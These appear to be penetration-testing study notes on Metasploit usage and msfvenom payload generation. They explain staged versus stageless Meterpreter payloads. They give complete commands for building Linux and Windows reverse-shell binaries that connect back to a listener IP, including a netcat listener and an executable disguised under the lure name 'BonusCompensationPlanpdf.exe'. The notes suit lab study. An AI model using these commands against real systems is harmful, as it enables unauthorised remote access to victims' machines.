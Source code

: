 
# Running metasploit
1. `msfconsole`
2. `search ..`
3. `use ..`
4. `options`
5. `set ... ...`
6. `exploit`

# Crafting Payloads with MSFVenom
- `msfvenom -l payloads

## Staged Payloads
- eg. `windows/meterpreter/reverse_tcp`
- Payload sends a small stage to be executed on target
- Then calls back to attack box to download the remainder of the payload over the network
- Then executes shellcode to get reverse shell

# Stageless Payloads
- eg. `windows/meterpreter_reverse_tcp`
- Payload sent in entirety across network connection without a stage
- Could benefit in environments where do not have access to much bandwidth and latency can interfere

## Building stageless payload
- eg. `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf`
	- -p: creating payload
	- linux... : choosing the payload
	- LHOST, LPORT: the address to connect back to
		- Since this is a reverse shell, this is our machine
	- -f: format the binary will be in, in this case a .elf file
	- createbackup.elf: the output

- find someway to execute it on the target machine
- we also need a listener ready to catch the connection on our machine
	- `sudo nc -lvnp 443`

Windows version
- eg. `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe`

